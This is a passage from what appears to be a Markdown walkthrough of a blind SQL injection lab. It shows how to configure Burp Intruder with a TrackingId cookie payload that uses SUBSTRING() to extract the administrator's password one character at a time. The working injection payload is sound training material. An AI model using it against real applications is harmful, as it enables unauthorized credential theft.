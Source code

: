 ![2025-05-20_23-18.png](LabImg/2025-05-20_23-18.png)

### 9️⃣ Configure the Cookie for Character Extraction

In **Burp Intruder**, change the value of the cookie to:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

> This uses the `SUBSTRING()` function to extract a **single character** from the password, testing it against a specific value. The attack will cycle through each position and possible character, testing one by one.
> 

### Set the Payload Position Marker

- Select only the **`a`** character in the cookie value.
- Click the **Add §** button in Intruder to place payload markers around it.

You should see the payload position like this:

```sql
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
